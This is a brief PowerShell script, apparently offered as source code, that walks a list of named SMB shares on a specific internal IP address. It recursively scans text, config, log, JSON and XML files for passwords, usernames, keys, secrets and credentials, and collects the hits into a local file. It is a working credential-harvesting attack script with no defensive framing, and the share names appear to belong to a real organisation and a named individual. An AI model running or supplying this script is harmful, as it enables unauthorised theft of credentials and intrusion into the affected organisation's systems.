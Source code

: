 $shares = "Adama", "Agan-Imprivata", "AGRIC", "allusr", "hilan", "Lab Results", "NATIV P", "Oee_28", "ruslan.alanazarov", "vol", "w_Analytical Lab", "yosi temp"
foreach ($share in $shares) {
    Get-ChildItem "\\199.203.129.16\$share" -Recurse -Include *.txt,*.cfg,*.ini,*.json,*.log,*.xml 2>$null | 
    Select-String -Pattern "password|username|user|key|secret|credentials" | 
    Out-File -Append "C:\Temp\credentials_found.txt" -Encoding UTF8
}
